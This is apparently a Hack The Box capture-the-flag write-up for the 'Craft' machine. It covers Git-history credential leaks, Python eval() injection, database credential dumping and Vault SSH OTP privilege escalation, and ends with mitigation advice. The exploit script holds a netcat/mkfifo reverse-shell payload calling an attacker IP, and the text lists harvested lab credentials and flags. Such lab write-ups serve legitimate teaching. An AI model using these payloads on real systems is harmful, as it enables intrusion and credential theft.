







# Machine Information

<table>
<tr>
<td><strong>IP Address</strong></td>
<td>10.129.106.46</td>
</tr>
<tr>
<td><strong>Operating System</strong></td>
<td>Linux</td>
</tr>
<tr>
<td><strong>Hostname</strong></td>
<td>craft</td>
</tr>
<tr>
<td><strong>Domain</strong></td>
<td>craft.htb</td>
</tr>
<tr>
<td><strong>Release Date</strong></td>
<td>July 2019</td>
</tr>
<tr>
<td><strong>Difficulty</strong></td>
<td>Medium</td>
</tr>
</table>

# Machine Description

Craft is a medium-difficulty Linux machine that demonstrates the risks of exposed source code repositories, unsanitized API input, and overly permissive container privileges. The exploitation path begins with discovering leaked credentials in a Git repository's commit history, progresses through a Python code injection vulnerability in an unsanitized API parameter, and culminates in abusing a privileged Vault secrets management service with a dangerously permissive SSH authentication configuration to achieve root access.

# Exploitation Summary

The attack chain involved:

1. **Service Discovery**: Identifying SSH and a web server with multiple virtual hosts
2. **Repository Enumeration**: Discovering an exposed Gogs Git repository containing API source code
3. **Credential Leak Discovery**: Finding hardcoded credentials in the commit history of an authentication script
4. **Code Injection**: Exploiting an unsanitized `eval()` call in the API's ABV parameter to achieve remote code execution
5. **Container Escape Analysis**: Confirming execution inside a privileged Docker container
6. **Database Enumeration**: Extracting database credentials from a configuration file and querying the MySQL database directly
7. **Credential Harvesting**: Retrieving additional user credentials stored in plaintext within the database
8. **Lateral Movement**: Using the harvested credentials to access a private Gogs repository containing an SSH private key
9. **SSH Access**: Authenticating to the target via SSH using the recovered private key and passphrase
10. **Vault Enumeration**: Discovering and analyzing a HashiCorp Vault instance configured with a dangerously permissive SSH OTP role
11. **Privilege Escalation**: Abusing the Vault root token and the SSH secrets engine to obtain a one-time password for root access

# Detailed Walkthrough

## Road to User Flag

### ***Phase 1: Initial Network Reconnaissance and Service Discovery***

I began by performing a comprehensive network scan to identify open ports and running services on the target machine:

```
$ sudo nmap 10.129.106.46 -Pn -sV

...SNIP...
  
PORT    STATE SERVICE  VERSION  
22/tcp  open  ssh      OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)  
443/tcp open  ssl/http nginx 1.15.8  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
...SNIP...
```

The presence of an SSL-enabled web server suggested that further web application enumeration was warranted.
### ***Phase 2: Web Application and Virtual Host Discovery***

I navigated to the web server on port 443 and reviewed the landing page. 



Upon exploring the website's navigation, I noticed a link labeled "API" that redirected to a different virtual host, `gogs.craft.htb`. 



This virtual host hosted a Gogs instance, a self-hosted Git service, containing a repository with several Python API scripts.

### ***Phase 3: Credential Discovery in Commit History***

While browsing the repository, I examined the commit history of `test.py`, a script used for authentication and for adding new "brew" entries through the API. Reviewing previous commits revealed that a developer had accidentally committed hardcoded credentials that were later removed in a subsequent commit, but remained visible in the Git history. 



These credentials found were `dinesh:4aUh0A8PbVJxgd`.

### ***Phase 4: Identifying the Code Injection Vulnerability***

Continuing my review of the repository, I inspected the `brew.py` API endpoint, which handles the creation of new brew entries. I noticed that the `abv` (alcohol by volume) parameter supplied by the client was passed directly into Python's `eval()` function without any input sanitization:

```
if eval('%s > 1' % request.json['abv']):
    return "ABV must be a decimal value less than 1.0", 400
else:
    create_brew(request.json)
    return None, 201
```

Since `eval()` executes arbitrary Python expressions, and the `abv` value was inserted directly into the evaluated string without validation, this represented a critical remote code execution vulnerability. An attacker able to authenticate to the API could inject arbitrary Python code through this parameter.

### ***Phase 5: Exploiting the Code Injection for Remote Code Execution***

I crafted a local copy of the `test.py` script, using the leaked credentials for authentication and replacing the `abv` parameter with a malicious Python payload designed to spawn a reverse shell:

```
#!/usr/bin/env python

import requests
import json
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

response = requests.get('https://api.craft.htb/api/auth/login', auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
json_response = json.loads(response.text)
token = json_response['token']

headers = { 'X-Craft-API-Token': token, 'Content-Type': 'application/json' }

response = requests.get('https://api.craft.htb/api/auth/check', headers=headers, verify=False)
print(response.text)

brew_dict = {}
brew_dict['abv'] = "__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.102 1111 >/tmp/f')"
brew_dict['name'] = 'bullshit'
brew_dict['brewer'] = 'bullshit'
brew_dict['style'] = 'bullshit'

json_data = json.dumps(brew_dict)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
print(response.text)
```

The payload leveraged Python's `__import__('os').system()` construct to execute a shell command that establishes a reverse shell connection using a named pipe and netcat. I started a listener on my attacking machine to catch the incoming connection:

```
$ nc -lvnp 1111
listening on [any] 1111 ...
```

I then granted execution permissions to the script and ran it:

```
$ chmod +x test.py
$ python3 ./test.py
```

Returning to the listener, I received a successful reverse shell connection:

```
connect to [10.10.14.102] from (UNKNOWN) [10.129.106.46] 38093
/bin/sh: can't access tty; job control turned off
/opt/app #
```

### ***Phase 6: Container Environment Confirmation***

Upon gaining shell access, I checked the current user context:

```
/opt/app # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

The unusual shell prompt and the fact that I was immediately running as `root` raised suspicion that I was inside a Docker container rather than directly on the host system. I verified this by searching for the `.dockerenv` marker file, which is present exclusively inside Docker containers, and by checking the hostname:

```
/opt/app # find / -type f -name .dockerenv
/.dockerenv
```

```
/opt/app # hostname
5a3d243127f5
```

The presence of the `.dockerenv` file alongside a randomly generated hostname (`5a3d243127f5`), a pattern typical of Docker container IDs, confirmed that I was indeed operating inside a containerized environment.

### ***Phase 7: Local Enumeration and Configuration Discovery***

I proceeded to enumerate the current working directory:

```
/opt/app # ls -ltra
```

The directory structure largely mirrored the contents of the Gogs repository I had previously reviewed. However, inside the `craft_api` subdirectory, I discovered an additional file not visible in the public repository, named `settings.py`, which contained database connection credentials:

```
/opt/app # cat craft_api/settings.py

...SNIP...

# database
MYSQL_DATABASE_USER = 'craft'
MYSQL_DATABASE_PASSWORD = 'qLGockJ6G2J75O'
MYSQL_DATABASE_DB = 'craft'
MYSQL_DATABASE_HOST = 'db'
SQLALCHEMY_TRACK_MODIFICATIONS = False
```

### ***Phase 8: Database Enumeration***

I recalled that the Gogs repository also contained a script named `dbtest.py` within the `craft_api` directory, apparently used to test connectivity to the MySQL database using the PyMySQL library. 



Using the credentials recovered from `settings.py`, I crafted a one-line Python command to connect to the database and confirm the currently selected database:

```
/opt/app # python3 -c "import pymysql; conn = pymysql.connect(host='db', user='craft', password='qLGockJ6G2J75O', db='craft'); cur = conn.cursor(); cur.execute('select database();'); print(cur.fetchall())"
(('craft',),)
```

Using the same approach, I enumerated the tables present in the `craft` database:

```
/opt/app # python3 -c "import pymysql; conn = pymysql.connect(host='db', user='craft', password='qLGockJ6G2J75O', db='craft'); cur = conn.cursor(); cur.execute('show tables;'); print(cur.fetchall())"
(('brew',), ('user',))
```

Finally, I dumped the entire contents of the `user` table, which revealed plaintext credentials for several accounts:

```
/opt/app # python3 -c "import pymysql; conn = pymysql.connect(host='db', user='craft', password='qLGockJ6G2J75O', db='craft'); cur = conn.cursor(); cur.execute('select * from user;'); print(cur.fetchall())"
((1, 'dinesh', '4aUh0A8PbVJxgd'), (4, 'ebachman', 'llJ77D8QFkLPQB'), (5, 'gilfoyle', 'ZEU3N8WNM2rh4T'))
```

### ***Phase 9: Lateral Movement to Gilfoyle via Gogs***

Among the harvested credentials, `gilfoyle:ZEU3N8WNM2rh4T` allowed me to authenticate to the Gogs web interface. The gilfoyle account had access to a second, private repository containing sensitive information, including a directory holding SSH keys. 



Inside this directory, the repository exposed an SSH private key in plaintext.



I saved this private key in a local file on my attacking machine named `id_rsa`

### ***Phase 10: Get the flag

The private key was protected by a passphrase. Given that password reuse had already been observed across multiple services in this environment, I attempted the same password used to access the Gogs web interface as the key's passphrase. This assumption proved correct, and I successfully authenticated to the target's SSH service as the `gilfoyle` user:

```
$ ssh -i id_rsa gilfoyle@10.129.106.46

Enter passphrase for key 'id_rsa': # ZEU3N8WNM2rh4T

gilfoyle@craft:~$
```

I located and retrieved the user flag:

```
gilfoyle@craft:~$ find / -type f -name user.txt 2>/dev/null
/home/gilfoyle/user.txt
```

```
gilfoyle@craft:~$ cat /home/gilfoyle/user.txt
```

<mark>User flag</mark>: `50dcbaeffafef37ad416b311de12aec6`
## Road to Root Flag

### ***Phase 1: Discovering the Vault configuration***

Continuing my enumeration of `gilfoyle`'s private repository, I found, alongside a `docker-compose.yml` file describing the container infrastructure, the `nginx.conf` for the web server configuration and `Dockerfile` used to build the Vault container, a Bash script containing commands used to configure a HashiCorp Vault instance. 



I was not previously familiar with Vault, so I researched its purpose to understand how it worked. HashiCorp Vault is a secrets management system used to centralize the storage and control of sensitive configuration data. A secret, in this context, is simply any piece of information that needs tightly controlled access, such as passwords, API keys, database credentials, or encryption keys. Vault manages these secrets through Secrets Engines, which act as plugins responsible for handling a specific type of secret or service. Each engine can be enabled or disabled as needed, and once enabled, it exposes its own set of functionality for creating, reading, and managing the secrets it controls. Clients must first authenticate to Vault, after which they are granted a token that determines what actions they are permitted to perform and which secrets they can access. This script enabled the SSH secrets engine and configured a role named `root_otp`, which permitted SSH access through a one-time password mechanism in the context of the `root` user. The SSH secrets engine configured on this Vault instance operates in One-Time SSH Password (OTP) mode. According to the official HashiCorp documentation, this mode allows a Vault server to issue a one-time password every time a client wants to connect via SSH to a remote host, with verification performed on the remote host through a helper command that communicates with the Vault server. When a client establishes an SSH connection, the generated OTP is validated against the Vault server, and because every connection attempt requires contacting the server, each login is logged through Vault's audit system. Critically, the documentation notes that the main security consideration with this engine is the remote host's connection to Vault: if an attacker is able to influence this communication, unauthorized access could be granted.

### ***Phase 2: Locating the Vault token***

While enumerating `gilfoyle`'s home directory, I discovered a hidden file containing a Vault authentication token:

```
gilfoyle@craft:~$ cat .vault-token
f1783c8d-41c7-0b12-d1c1-cf2aa17ac6b9
```

### ***Phase 3: Verifying the Vault token privileges***

I checked whether this token was currently valid and what privileges it carried by performing a token lookup:

```
gilfoyle@craft:~$ vault token lookup
Key                 Value
---                 -----
accessor            1dd7b9a1-f0f1-f230-dc76-46970deb5103
creation_time       1549678834
creation_ttl        0s
display_name        root
entity_id           n/a
expire_time         <nil>
explicit_max_ttl     0s
id                  f1783c8d-41c7-0b12-d1c1-cf2aa17ac6b9
meta                <nil>
num_uses            0
orphan              true
path                auth/token/root
policies            [root]
ttl                 0
```

The output confirmed that the token stored in the hidden file was the exact same token as the one currently active, and crucially, this token was associated with the `root` policy, granting unrestricted administrative access to the entire Vault instance.
### ***Phase 4: Verifying the root_otp role configuration***

With root-level access to Vault confirmed, I examined the configuration of the `root_otp` role referenced in the Bash script found in the repository, to verify it matched what I had observed:

```
gilfoyle@craft:~$ vault read ssh/roles/root_otp
Key                 Value
---                 -----
allowed_users       n/a
cidr_list           0.0.0.0/0
default_user        root
exclude_cidr_list   n/a
key_type            otp
port                22
```

The configuration confirmed that the role was set to generate one-time passwords for the `root` user, with the CIDR list set to `0.0.0.0/0`, meaning the role could be used to request OTP-based SSH access from any network, targeting the root account on port 22.

### ***Phase 5: Exploiting the Vault SSH OTP Role for Root Access***

With a valid root-privileged Vault token and a permissive `root_otp` role configured for root access, I used the `vault ssh` command to request a one-time password and establish an SSH session as `root`. The command internally requests a fresh OTP credential from Vault for the specified role and then uses it to authenticate the SSH connection, with Vault's helper on the remote host validating the OTP against the Vault server before granting access:

```
gilfoyle@craft:~$ vault ssh -mode=otp -role=root_otp root@127.0.0.1

...SNIP...

root@craft:~# id
uid=0(root) gid=0(root) groups=0(root)
```

The command succeeded, granting me an interactive root shell on the target machine.

### ***Phase 6: Get the Flag***

With root access confirmed, I retrieved the root flag:

```
root@craft:~# cat root.txt
```

<mark>Root flag</mark>: `831d64ef54d92c1af795daae28a11591`

---

# Key Vulnerabilities Exploited

- **Credentials Leaked in Git Commit History**: A developer committed hardcoded credentials to the repository and later removed them, but the credentials remained permanently accessible within the Git commit history
- **Unsanitized Input Passed to eval()**: The `brew.py` API endpoint passed the client-supplied `abv` parameter directly into Python's `eval()` function without validation, allowing arbitrary code execution
- **Privileged Docker Container**: The compromised API container was configured to run as the root user with no meaningful privilege restriction, simplifying post-exploitation and further enumeration
- **Plaintext Credential Storage**: The MySQL `user` table stored all user passwords in plaintext rather than using a secure hashing algorithm, allowing immediate credential harvesting upon database access
- **Password Reuse**: The passphrase protecting the gilfoyle SSH private key was identical to the password used for the Gogs web interface, allowing the key to be decrypted once the first credential was known
- **Exposed Private Key in Repository**: An SSH private key was committed directly into a Git repository, making it retrievable by anyone with read access to that repository
- **Overly Permissive Vault Token Storage**: A Vault root token, granting unrestricted administrative privileges, was stored unprotected in a user's home directory
- **Dangerously Permissive SSH OTP Role**: The `root_otp` Vault role permitted one-time password generation for direct root SSH access from any network (`0.0.0.0/0`), with no restriction on allowed users or source addresses
# Conclusion

The Craft machine demonstrates how multiple misconfigurations combine to enable complete system compromise. From credentials leaked in Git commit history enabling unauthorized API access, to an unsanitized code injection vulnerability, excessive container privileges, and finally a dangerously permissive Vault SSH role, each stage exploited the previous vulnerability. This emphasizes the importance of secure coding practices, proper secrets management, and careful privilege restriction across every layer of the infrastructure. To mitigate these vulnerabilities, organizations should enforce strict code review processes to prevent credentials from ever being committed to version control, and should rotate any credentials that have been exposed in commit history even after removal. Server-side input validation must be applied to all user-supplied parameters, with dangerous constructs like `eval()` avoided entirely in favor of safe parsing methods. Containers should run with the minimum privileges necessary and never as root unless strictly required. Passwords stored in databases must be hashed using strong, salted algorithms rather than stored in plaintext. Vault tokens, especially those carrying root-level policies, should be short-lived, properly scoped, and never persisted in plaintext on disk. SSH roles configured within Vault should restrict allowed users and source networks as tightly as possible, rather than permitting unrestricted root access from any IP address. This case study underscores that infrastructure security requires defense in depth, as layered misconfigurations create an irresistible path to complete system compromise.
